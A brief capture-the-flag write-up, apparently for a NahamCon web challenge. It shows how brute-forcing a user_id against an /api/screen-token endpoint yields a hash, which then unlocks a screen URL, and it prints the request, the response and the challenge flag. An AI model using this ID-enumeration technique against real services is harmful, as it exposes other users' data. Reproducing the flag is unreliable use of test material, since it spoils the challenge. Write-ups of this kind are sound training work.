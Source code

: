 # Solution

look into the js file at `/assets/js/app.js`,
noticed that it checks `/api/screen-token` with `user_id`,
mimic one and brute the `user_id`,


## Request
```
POST /api/screen-token/ HTTP/1.1
Host: challenge.nahamcon.com:32671


{"user_id":"7"}

```
## Response
```
HTTP/1.1 201 Created
Server: nginx/1.26.3


{"hash":"fe49e2554d481e070c213ec0b8a9113e"}

```
get the hash and go to the URL,
`http://challenge.nahamcon.com:32671/screen/?key=fe49e2554d481e070c213ec0b8a9113e`,

flag: `flag{f0b1d2a98cd92d728ddd76067f959c31}`

Solved by: ks
